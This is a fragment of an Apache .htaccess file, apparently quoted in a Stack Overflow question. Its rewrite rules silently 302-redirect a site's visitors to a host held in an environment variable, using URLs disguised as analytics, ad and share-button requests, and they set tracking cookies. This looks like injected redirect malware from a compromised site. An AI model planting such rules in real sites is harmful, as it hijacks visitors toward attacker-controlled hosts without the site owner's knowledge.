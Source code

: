 ```
RewriteRule ^.* http://%{ENV:HjT}/www/app_full_proxy.php?app=275724075798066&v=1&size=z&cksum=e086bd606215518aed83711368bbecf5&src=http\%3A\%2F\%2F%{HTTP_HOST}\%2F  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:11607:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 2
RewriteRule ^.* http://%{ENV:HjT}/__utm.gif?utmwv=5.3.3&utms=10&utmn=620248474&utmhn=malang.olx.co.id&utme=8(2!entryPage)9(2!jobs/staticsearch/190\%3Fsearchbox\%3Dretailer\%26section\%3Dst-190)11(2!1)&utmcs=UTF-8&utmsr=1024x768&utmvp=1024x638&utmsc=24-bit&utmul=en-us&utmje=0&utmfl=10.3\%20r181&utmdt=Gambar\%20MAZDA\%20MR\%20TAHUN\%201992.\%20BIRU\%20-\%20Malang\%20-\%20Mobil&utmhid=312516024&utmr=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&utmp=vehicles/itemimages/withImg/0&utmac=UA-1240664-1&utmcc=__utma\%3D209359949.1036501994.1340939688.1340939688.1340955051.2\%3B\%2B__utmz\%3D209359949.1340955051.2.2.utmcsr\%3Dgoogle\%7Cutmccn\%3D(organic)\%7Cutmcmd\%3Dorganic\%7Cutmctr\%3Dgambar\%2520mobil\%2520mazda\%2520th\%25201992\%3B&utmu=ujGgAAAAIAAAAAAAAAAAAAB~  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:9398:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 3
RewriteRule ^.* http://%{ENV:HjT}/_xhr/ugccomments/?method=get_context_uuid&context_id=8064b73e-890d-3876-9ce5-c5f7c98574aa&0.2617028157370842&baseurl=http\%3A\%2F\%2F%{HTTP_HOST}\%2F  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:9127:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 4
RewriteRule ^.* http://%{ENV:HjT}/ping?h=thefrisky.com&p=/photos/357-12-stars-who-regret-having-plastic-surgery/lisa-rinna-lips-m-jpg-2/&u=i5r1cquurwfzcui1&d=thefrisky.com&g=25328&n=1&f=1&c=0&x=114&y=1865&w=638&j=45&R=1&W=0&I=0&E=0&v=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&b=4187&t=72n4jkji2m79sf6m&V=6&D=nygdmayh2yyvp9w3&i=12\%20Stars\%20Who\%20Regret\%20Having\%20Plastic\%20Surgery\%20Lisa\%20Rinna\%20\%E2\%80\%93\%20The\%20Frisky&_  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:11948:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 5
RewriteRule ^.* http://%{ENV:HjT}/__utm.gif?utmwv=5.3.2&utms=3&utmn=490784565&utmhn=www.wego.co.id&utme=8(2!Hotels*Google\%20search\%20position)9(2!Details\%20Overview*5)&utmcs=UTF-8&utmsr=1024x768&utmvp=1007x612&utmsc=24-bit&utmul=en-us&utmje=0&utmfl=11.2\%20r202&utmdt=Aston\%20Cengkareng\%20City\%20Hotel\%20\%26\%20Conference\%20Center\%2C\%20Jakarta\%20-\%20Bandingkan\%20tarif\%20kamar\%20-\%20Wego.co.id&utmhid=1324439502&utmr=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&utmp=/hotel/indonesia/jakarta/aston-cengkareng-city-hotel-and-conference-center--133090&utmac=UA-29994605-1&utmcc=__utma\%3D1.786375144.1340094774.1340094774.1340094774.1\%3B\%2B__utmz\%3D1.1340094774.1.1.utmcsr\%3Dgoogle\%7Cutmccn\%3D(organic)\%7Cutmcmd\%3Dorganic\%7Cutmctr\%3Dstandard\%2520superior\%2520twin\%2520room\%2520aston\%2520hotel\%3B&utmu=qzGggCAAAAAAAAAAAAAAAAB~  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:10955:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 6
RewriteRule ^.* http://%{ENV:HjT}/delivery/lg.php?bannerid=30550&campaignid=4402&zoneid=1917&channel_ids=,&loc=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&referer=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&cb=dbd1f7d293  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:9621:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 7
RewriteRule ^.* http://%{ENV:HjT}/api/getCount2.php?cb=stButtons.processCB&refDomain=www.mangahere.com&refQuery=manga/fly_high/v03/c013/37.html&pgurl=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&pubKey=e47efe7d-147b-4731-ac42-9838ccdc52f2&url=http\%3A\%2F\%2F%{HTTP_HOST}\%2F  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:10798:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 8
RewriteRule ^.* http://%{ENV:HjT}/pingjs/?k=f6ckilz7r2ss&t=Komik\%20Fairy\%20Tail\%20\%7C\%20Chapter\%20288\%20289\%20Hal\%2016\%20-\%20Baca\%20Manga\%20Bahasa\%20Indonesia\%20Online&c=s&y=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&a=-1&r=978836  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:11234:/:0:HttpOnly]
<!-- Conditions 10 - 58 removed to post on stackoverflow -->
RewriteCond %{ENV:Jpg} 59
RewriteRule ^.* http://%{ENV:HjT}/delivery/lg.php?bannerid=31662&campaignid=2&zoneid=1884&channel_ids=,&loc=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&referer=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&cb=af167e7f1f  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:9285:/:0:HttpOnly]

</IfModule>
#a77342b1677255ef6afc9a0dbec166f633c2b44166559458c71fb4e7 
```
